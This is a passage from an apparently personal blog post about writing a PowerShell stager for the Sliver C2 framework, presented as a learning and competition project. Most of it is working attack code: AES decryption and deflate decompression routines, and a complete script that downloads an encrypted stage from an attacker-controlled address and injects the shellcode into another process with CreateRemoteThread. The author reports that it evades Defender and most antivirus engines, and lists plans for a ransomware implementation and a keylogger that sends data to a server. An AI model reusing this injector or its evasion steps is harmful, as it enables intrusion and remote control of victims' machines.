		Format:     uint32(1), // 1=raw, 2=base64, 3=c, 4=ruby, 5=python 
	...
```
4. Save the config and compile the client and server binaries using `make`

Now, when sliver generates its binaries, it will not include AMSI bypass.

### Applying AES Encryption

Now let's take a look at the settings I can apply to stager in sliver by running `profiles stage`

```
sliver > profiles stage

Error: accepts 1 arg(s), received 0
Usage:
   profiles stage [flags]

Flags:
  -i, --aes-encrypt-iv string    AES Encryption IV
  -k, --aes-encrypt-key string   AES Encryption Key
  -c, --compress string          Compress stage (zlib, gzip, deflate9 or deflate)
  -h, --help                     help for stage
  -n, --name string              Implant name
  -p, --prepend-size             Prepend stage size
  -r, --rc4-encrypt-key string   RC4 encryption key
  -s, --save string              directory/file to the binary to

Global Flags:
  -t, --timeout int   grpc timeout in seconds (default 60)
```

Here, we're mostly interested in `--aes-encrypt--key` and `--aes-encrypt-iv`. When trying to supply my own AES Key/IV pair, sliver gave me an error. I'm not entirely sure why, but this is currently being tracked in GitHub issue [#1848](https://github.com/BishopFox/sliver/issues/1848). Nonetheless, providing `--aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT` and `--aes-encrypt-iv 8y/B?E(G+KbPeShV` as seen in the [sliver docs](https://github.com/BishopFox/sliver/wiki/Stagers/e2b8417c1434c926daf746f9e85146566972a69e) works. 

Since the binary we're receiving from the stage-listener is encrypted, our script will have to include a decrypt functionality.  Thankfully sliver documentation also includes a prewritten C# AES decryption function (see below).

```
private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)

        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);
            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;
                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key,                    aesAlg.IV);
                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new                                             CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }
```
 
At a high level, this function decrypts the ciphertext using the AES encryption algorithm by using the AES key and IV provided to configure an AES decryptor. The ciphertext is processed through a CryptoStream, decrypted in-memory, and returned as a byte array. Creating something similar in powershell gets me this: 

```
function Decrypt 
{
    param ([byte[]]$FullData)

    $key =                                                                             [System.Text.Encoding]::UTF8.GetBytes('D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT')
    $iv = [System.Text.Encoding]::UTF8.GetBytes('8y/B?E(G+KbPeShV')
    $cipherText = $FullData[16..($FullData.Length - 1)]

    $aesAlg = [System.Security.Cryptography.Aes]::Create()
    $decryptor = $null
    $memoryStream = $null
    $cryptoStream = $null

    try 
    {
        $aesAlg.Key = $key
        $aesAlg.IV = $iv
        $aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::None
        $aesAlg.Mode = [System.Security.Cryptography.CipherMode]::CBC

        $decryptor = $aesAlg.CreateDecryptor()
        $memoryStream = [System.IO.MemoryStream]::new()
        $cryptoStream = 
        [System.Security.Cryptography.CryptoStream]::new($memoryStream,
        $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

        $cryptoStream.Write($cipherText, 0, $cipherText.Length)
        $cryptoStream.FlushFinalBlock()

        $result = $memoryStream.ToArray()
        return $result
    }
    catch 
    {
        Write-Error "Decryption failed"
    }
    finally 
    {
        if ($cryptoStream) { $cryptoStream.Dispose() }
        if ($memoryStream) { $memoryStream.Dispose() }
        if ($decryptor) { $decryptor.Dispose() }
        if ($aesAlg) { $aesAlg.Dispose() }
    }
}
```

I had implemented the AES decrypt functionality before I recompiled Sliver from the source to change the donut configuration. So after making the changes and recompiling I felt on top of the world, and finally ready to beat defender... but alas, that did not happen. 

It turns out the version of the Sliver I downloaded was released 4 days ago, and documentation had not yet been updated, so when downloaded my "encrypted stage", its content were seemingly empty... great.



*Fig 9: Empty binary after only AES encrypting*

After bashing my head at a wall, I decided to open a [GitHub issue](https://github.com/BishopFox/sliver/issues/1842) where I was informed this was expected functionality from the new version and I would have to encode/compress the stager or else it would interfere with the HTTP response, great.

Although I did not intend to add decompression capabilities to this tool, it does drastically reduce the size of the binary over the wire, and it gives me experience with more obfuscation methods, so I guess it's a win-win.  

### Yay Compression... I Guess

When we ran `profiles stage` to view the configuration options for our stager, listed was flag `-c` to compress the stage with a variety of compression algorithms such as zlib, gzip, deflate9 or deflate. The usage of this flag seems straightforward enough, we'll use deflate9 along with AES encryption (as that would result in the smallest file size), download the binary, and view the TCP stream as we did in Fig. 4.



*Fig 10: Compressed and encrypted binary analysis using wireshark*

As you can see, the size of the binary is now 9686 kB, compared to 18 MB before. Additionally, we can observe that the first 16 bytes are the AES IV we provided in the stager configuration. This tells us two things: First, the data is compressed and then encrypted, meaning we have to decrypt and then decompress the binary we download. Second, since the first 16 bytes contain the IV, we must process the data we download by stripping the first 16 bytes so it can be properly decrypted.

This time sliver did not provide a decompression function in their documentation, but I found a [blog post](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) from @youcef.s.kelouaz that contained a decompression function written in C# for the Gzip and deflate 9 compression functions. In true hacker fashion let's analyze the source and rewrite it in powershell syntax.
```
public static byte[] Decompress(byte[] data, string CompressionAlgorithm)  
        {  
            byte[] decompressedArray = null;  
            if (CompressionAlgorithm == "deflate9")  
            {  
                using (MemoryStream decompressedStream = new MemoryStream())  
                {  
                    using (MemoryStream compressStream = new MemoryStream(data))  
                    {  
                        using (DeflateStream deflateStream = new                                           DeflateStream(compressStream, CompressionMode.Decompress)) 
                        {  
                            deflateStream.CopyTo(decompressedStream);  
                        }  
                    }  
                    decompressedArray = decompressedStream.ToArray();  
                }  
                return decompressedArray;  
            }  
            else if (CompressionAlgorithm == "gzip")  
            {  
                using (MemoryStream decompressedStream = new MemoryStream())  
                {  
                    using (MemoryStream compressStream = new MemoryStream(data))  
                    {  
                        using (GZipStream gzipStream = new                                                 GZipStream(compressStream, CompressionMode.Decompress))  
                        {  
                            gzipStream.CopyTo(decompressedStream);  
                        }  
                    }  
                    decompressedArray = decompressedStream.ToArray();  
                }  
                return decompressedArray;  
            }  
            else  
            { 
                return data;  
            }  
        }
```

Similar to the AES decryption process, we need to initialize two memory streams: one for the compressed data and one for the uncompressed data. We then use the appropriate decompression stream, based on the specified compression algorithm and mode, to decompress the data and write the result to a byte array. Doing so, we get this:

```
function Decompress 
{
    param 
    (
        [byte[]]$Data, [ValidateSet('deflate9', 'gzip', 'none')]                           [string]$CompressionAlgorithm
    )

    $deflateStream = $null
    $gzipStream = $null
    $compressedStream = $null
    $decompressedStream = $null

    try
    {
        if ($CompressionAlgorithm -eq 'none') 
        {
            return $Data
        }

        $compressedStream = [System.IO.MemoryStream]::new($Data)
        $decompressedStream = [System.IO.MemoryStream]::new()

        if ($CompressionAlgorithm -eq 'deflate9') 
        {
            $deflateStream =                                                                   [System.IO.Compression.DeflateStream]::new($compressedStream,                      [System.IO.Compression.CompressionMode]::Decompress)
            $deflateStream.CopyTo($decompressedStream)
        } 
        elseif ($CompressionAlgorithm -eq 'gzip') 
        {
            $gzipStream =                                                                      [System.IO.Compression.GZipStream]::new($compressedStream,                         [System.IO.Compression.CompressionMode]::Decompress)
            $gzipStream.CopyTo($decompressedStream)
        }

        $result = $decompressedStream.ToArray()
        return $result
    }
    catch 
    {
        Write-Error "Decompression failed: $_"
    }
    finally 
    {
        if ($deflateStream) { $deflateStream.Dispose() }
        if ($gzipStream) { $gzipStream.Dispose() }
        if ($compressedStream) { $compressedStream.Dispose() }
        if ($decompressedStream) { $decompressedStream.Dispose() }
    }
}

```

Great, now all we have to do is implement the functions in the script like this:

```
# First decrypt the data
$compressed = Decrypt -FullData $encrypted

# Then decompress the data
$shellcode = Decompress -Data $compressed -CompressionAlgorithm 'deflate9'
```

The final source looks like this:

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 
{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint DesiredAccess, bool                   bInheritHandle, int ProcessID);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr Process, IntPtr                  StartAddress, UIntPtr shellcodeSize, uint AllocationType, uint                     MemProtectConstraint);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr Process, IntPtr StartAddr,     byte[] Shellcode, uint shellSize, out UIntPtr BytesWritten);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr Process, IntPtr              threadAttrib, uint stackSize, IntPtr shellcodeAddr, IntPtr additionalParams,       uint creationFlags, out IntPtr lpThreadId);
}
"@
Add-Type $Win32

# Function for decompressing data
function Decompress 
{
    param 
    (
        [byte[]]$Data, [ValidateSet('deflate9', 'gzip', 'none')]                           [string]$CompressionAlgorithm
    )

    $deflateStream = $null
    $gzipStream = $null
    $compressedStream = $null
    $decompressedStream = $null

    try
    {
        if ($CompressionAlgorithm -eq 'none') 
        {
            return $Data
        }

        $compressedStream = [System.IO.MemoryStream]::new($Data)
        $decompressedStream = [System.IO.MemoryStream]::new()

        if ($CompressionAlgorithm -eq 'deflate9') 
        {
            $deflateStream =                                                                   [System.IO.Compression.DeflateStream]::new($compressedStream,                      [System.IO.Compression.CompressionMode]::Decompress)
            $deflateStream.CopyTo($decompressedStream)
        } 
        elseif ($CompressionAlgorithm -eq 'gzip') 
        {
            $gzipStream =                                                                      [System.IO.Compression.GZipStream]::new($compressedStream,                         [System.IO.Compression.CompressionMode]::Decompress)
            $gzipStream.CopyTo($decompressedStream)
        }

        $result = $decompressedStream.ToArray()
        return $result
    }
    catch 
    {
        Write-Error "Decompression failed:"
    }
    finally 
    {
        if ($deflateStream) { $deflateStream.Dispose() }
        if ($gzipStream) { $gzipStream.Dispose() }
        if ($compressedStream) { $compressedStream.Dispose() }
        if ($decompressedStream) { $decompressedStream.Dispose() }
    }
}

# Function for AES decryption
function Decrypt 
{
    param ([byte[]]$FullData)

    $key =                                                                             [System.Text.Encoding]::UTF8.GetBytes('D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT')
    $iv = [System.Text.Encoding]::UTF8.GetBytes('8y/B?E(G+KbPeShV')
    $cipherText = $FullData[16..($FullData.Length - 1)]

    $aesAlg = [System.Security.Cryptography.Aes]::Create()
    $decryptor = $null
    $memoryStream = $null
    $cryptoStream = $null

    try 
    {
        $aesAlg.Key = $key
        $aesAlg.IV = $iv
        $aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::None
        $aesAlg.Mode = [System.Security.Cryptography.CipherMode]::CBC

        $decryptor = $aesAlg.CreateDecryptor()
        $memoryStream = [System.IO.MemoryStream]::new()
        $cryptoStream =                                                                    [System.Security.Cryptography.CryptoStream]::new($memoryStream,                    $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

        $cryptoStream.Write($cipherText, 0, $cipherText.Length)
        $cryptoStream.FlushFinalBlock()

        $result = $memoryStream.ToArray()
        return $result
    }
    catch 
    {
        Write-Error "Decryption failed: $_"
    }
    finally 
    {
        if ($cryptoStream) { $cryptoStream.Dispose() }
        if ($memoryStream) { $memoryStream.Dispose() }
        if ($decryptor) { $decryptor.Dispose() }
        if ($aesAlg) { $aesAlg.Dispose() }
    }
}


# Download encrypted and compressed data
$encrypted = (New-Object System.Net.WebClient).DownloadData("http://192.168.7.130/rev.woff?x=1279")
if (-not $encrypted) { Exit }

# First decrypt the data
$compressed = Decrypt -FullData $encrypted

# Then decompress the data
$shellcode = Decompress -Data $compressed -CompressionAlgorithm 'deflate9'
$size = [System.UIntPtr]::new($shellcode.Length)

# Get the target process
$targetProcess = Get-Process -Name cmd | Select-Object -First 1
$processId = $targetProcess.Id

# Open target process
$process = [Win32]::OpenProcess(0x001FFFFF, $false, $processId)

# Allocate memory in the target process
$memAddr = [Win32]::VirtualAllocEx($process, [System.IntPtr]::Zero, $size, 0x3000, 0x40)

# Write the shellcode to allocated memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, [uint32]$size.ToUInt32(), [ref]$writtenBytes)

# Execute the shellcode
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)

Write-Output "Injection complete."

$PID

```

Updates to this script will be uploaded in the [Github Repo](https://github.com/Indigo-10/MalDev/blob/main/ProcessInject.ps1).

## Final Testing and Thoughts

Lets turn defender on and see if we can get a shell from our script.


*Fig 11: FUD Sliver C2 Process Injection Using AES Encryption and Deflate9 Compression*

Due to the heavy compression, it takes around three minutes before we get a shell, but we can see that we do eventually inject into svchost and execute our shellcode fully undetected thanks to AES encryption and compressions.

Running my script through Kleenscan, it was only detected by 3/40 AV engines under the detection label "Heur.BZC.PZQ.Boxter.829.565F37F3". In the effort of not signaturing this script, I won't upload it to VirusTotal; however, knowing that our initial script was detected under "Heur.BZC.PZQ.Boxter.829.565F37F3" seven times, we can safely assume we would be detected by 7/61 AV engines, a respectable decrease from 16/61.

This was an insanely fulfilling project to complete, doing so feels like I've cured a career-long imposter syndrome that came from being unable to write my own malware. I've wanted to dabble in malware development for a long time, and I feel like this was a great first project for me to do so. 

### For Next Time

For my first "tool" I think it has a lot of potential. Here's my list of ideas on how I can build this out and improve it.

1. Migrate this over to C# lol. I've received mass criticism from my peers writing this in powershell, but I suck at coding. I was given a template and I decided to work with it for now. I will admit, learning to deconstruct C# functions and write them in powershell has helped my comfortability a lot.
2. We should add some form of persistence.
3. Given I can be destructive and troll, we're going to do some trolling. Me and another teammate may be working on a ransomware implementation I'll write about after the competition.
4. Learn how to hide my C2 infrastructure.
5. If I can modularize this and build a full application that has methods for different forms of injection and such, that would be great. Essentially make this my own hacktool.
6. Everything is hardcoded, works for now, but it'd be nice to pass arguments in the command line.
7. Some of my friends are yapping about something called vectored exception handlers, I'll read up on this and get back to you. 
8. The way I select my services is unreliable, it some processes may crash, or will explicitly deny being manipulated
9. I want to write a FUD keylogger that doesn't store its logs on disk but instead sends information back to a central server.
10. Long term - rookit???
11. World domination